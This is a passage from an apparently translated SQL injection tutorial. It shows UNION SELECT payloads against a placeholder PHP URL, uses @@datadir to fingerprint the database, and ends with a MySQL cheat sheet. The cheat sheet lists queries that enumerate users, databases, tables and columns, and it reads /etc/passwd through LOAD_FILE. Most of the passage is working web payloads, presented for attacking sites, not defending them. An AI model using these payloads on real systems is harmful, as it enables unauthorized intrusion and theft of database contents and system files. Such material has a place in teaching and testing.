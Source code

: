 ```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,'soy vulnerable',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+
```

By injecting `'I am vulnerable'` we are telling the page that we want column number 5 to show us the phrase` I am vulnerable` since we are injecting a string directly into the vulnerable column

Something that I highly recommend is to use `@@ datadir`, This shows us where the database is mounted, but at the same time we get our information with which we can determine which database it is using, let's imagine that we inject and it shows us this:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+
```
It shows us:

`/var/lib/mysql/`

This means that the database is in that path and at the same time it tells us that the database used is `mysql`, so we focus on that database.

#### mysql sql Injection Cheat Sheet

Knowing that the database with which the page is managed is `mysql`, we will see a small` Cheat Sheet` for this database.

What is a Cheat Sheet?

Basically it is a list with many "tricks" you can say, as is the Spanish translation of that phrase `Cheat Sheet = cheat sheet`. In this one we are going to find from the most basic queries to a little more advanced queries that will help us a lot to work on our sql injection.

```
|   Version   |  SELECT @@version o SELECT version()  | gives us the version of the database  |

| Current User | SELECT user() o SELECT system_user() | gives us the user we have |

| List Users | SELECT user FROM mysql.user | shows us all users |

| Database  | SELECT database() | shows us the database we are in |

| Lista de bases de datos | SELECT schema_name FROM information_schema.schemata | shows us the databases  |

| List tables | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’ | shows us the tables of the chosen database |

| List Columns | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’ | shows us the columns of the chosen table |

| Local File Access |  UNION ALL SELECT LOAD_FILE(‘/etc/passwd’)  | if possible, let us read system files |

| DB location | SELECT @@datadir | It shows us the address where the database is installed | 
 
```
